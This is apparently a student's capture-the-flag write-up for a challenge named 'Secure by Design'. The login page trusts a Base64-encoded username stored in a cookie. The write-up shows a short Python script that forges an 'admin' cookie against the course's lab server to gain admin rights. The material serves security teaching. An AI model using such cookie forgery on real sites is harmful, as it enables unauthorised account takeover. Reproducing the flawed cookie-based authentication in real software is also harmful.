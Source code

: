 # Challenge `Secure by Design` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to username manipulation, as it is stored on a cookie

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23056` login page

- Impact: What results of exploiting this vulnerability
  - Allows any user to gain admin privileges, since the username "admin" is tied to `admin` previleges

## Steps to reproduce

1. Convert the username `admin` to `Base64`
2. Create a cookie with the pair `"user":encoded_admin`
3. Access http://mustard.stt.rnl.tecnico.ulisboa.pt:23056, sending the cookie, to get the flag

The code used was the following:

```py
  import requests
  import base64
  import re

  encoded_admin = base64.b64encode("admin".encode('utf-8')).decode('utf-8')
  cookie = {'user': encoded_admin}

  res = requests.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23056", cookies=cookie)

  print(res.text)
```
